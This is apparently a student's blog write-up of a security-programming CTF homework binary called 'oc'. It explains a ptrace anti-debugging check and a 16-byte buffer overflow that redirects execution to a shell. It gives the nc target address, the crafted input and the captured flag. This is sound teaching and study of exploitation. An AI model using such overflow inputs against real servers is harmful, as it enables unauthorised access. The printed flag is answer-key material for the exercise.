 ```yaml
---
layout: post
title: 'oc Writeup'
category: memo
slug: oc-writeup
---
```

Security Programming Homework 1-3

Using IDA Pro's impressive F5 decompilation, we discover sub\_80485D7() is the
most interesting part

```c
......
v6 = ptrace(0, 0, 1, 0);
......
if ( a1 != 14 )
{
    if ( a1 != 12 )
    {
        dword_804A044 = loc_8048707;
        src = loc_8048720;
        v4 = strlen(*(const char **)(a2 + 28));
        strncpy(dest, *(const char **)(a2 + 28), v4);
        if ( v6 >= 0 )
            memcpy(dword_804A044, src, src - dword_804A044);
    }
    puts("uhhh....it's something wrong.");
    exit(0);
}
system("/bin/sh");
return 0;
......
```

The program will copy the character(s) after 7th (including #7) character of a2
to dest. But dest is not used anymore (suspicious). Just keep in mind.

According to the text file (linux-anti-debugging.txt) from the hint

```c
int main()
{
    if (ptrace(PTRACE_TRACEME, 0, 1, 0) < 0) {
        printf("DEBUGGING... Bye\n");
        return 1;
    }
    printf("Hello\n");
    return 0;
}
```

`ptrace()` will return positive integer while the exectuable is not being
debugged. So the program oc will show "The flag is Support for universal
suffrage in Hong Kong just kidding. :p" while not being debugged and show
"uhhh....it's something wrong." while being debugged.

Because dest can only contain 16 char, more than 16 char being copied to dest
will cause the variable, src, being overwritten

```nasm
0804A048    ; char dest[16]
0804A048    dest        db 10h dup(?)
0804A058    ; void *src
0804A058    src         dd ?
```

So our objective is to jump to 0x08048731, i.e. `system("/bin/sh")`. By
observation, we only need to overwritten 0x31. 0x31 is actually ASCII "1". In
conclusion, we need 7 candidates as input, and the 7th candidate must be length
of 17, the last character must be "1"

## Exploitation

1. `nc 140.113.208.235 10002`
1. input `1 1 1 1 1 1 11111111111111111`
1. got shell
1. `cat flag`

## Capture The Flag

The flag is `SECPROC{0ccupy_C3ntr4l_w1th_L0v3_4nd_P34c3}`
